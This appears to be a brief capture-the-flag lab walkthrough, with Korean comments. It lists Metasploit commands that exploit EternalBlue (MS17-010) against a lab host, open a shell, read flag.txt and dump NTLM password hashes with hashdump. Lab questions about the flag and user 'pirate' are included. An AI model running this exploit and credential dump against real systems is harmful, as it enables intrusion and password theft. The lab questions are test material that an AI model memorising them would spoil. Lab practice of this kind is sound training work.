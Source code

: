 use use exploit/windows/smb/ms17_010_eternalblue
set rhosts 10.10.10.10
set rport 445
exploit

# meterpreter -> cmd : change to interactable shell with native command

shell

# etc

cd
dir
pwd
search -f flag.txt
type flag.txt

![](https://velog.velcdn.com/images/agnusdei1207/post/841b2d11-69ad-4a2c-b3e6-1dcfe22a113e/image.png)
![](https://velog.velcdn.com/images/agnusdei1207/post/af142867-ed28-4348-9802-09e0fb636536/image.png)
![](https://velog.velcdn.com/images/agnusdei1207/post/e74d0066-fe70-4808-b11e-c441694f304f/image.png)
What is the content of the flag.txt file?

![](https://velog.velcdn.com/images/agnusdei1207/post/bee7be2c-3990-444c-a2c2-63c32c46b790/image.png)
What is the NTLM hash of the password of the user "pirate"?

# hash 는 meterpeter 커맨드에서 바로 실행하기

hashdump
meterpeter> hashdump
